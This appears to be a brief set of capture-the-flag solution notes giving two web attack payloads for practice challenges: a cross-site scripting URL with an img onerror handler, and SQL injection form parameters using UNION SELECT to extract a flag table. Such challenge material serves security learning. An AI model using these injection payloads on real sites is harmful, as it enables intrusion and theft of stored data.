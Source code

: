 ## xmy script 
https://challenges.hackdemy.com/xmyscript/lookup?hello=<img src=a onerror=console.log("VULN_TO_XSS!")>

## roomate finder

name='&guests=na&neatness=na&sleep='UNION+SELECT+1,flag,null,null,null,null+FROM+flag&awake='UNION+SELECT+1,flag,null,null,null,null+FROM+flag
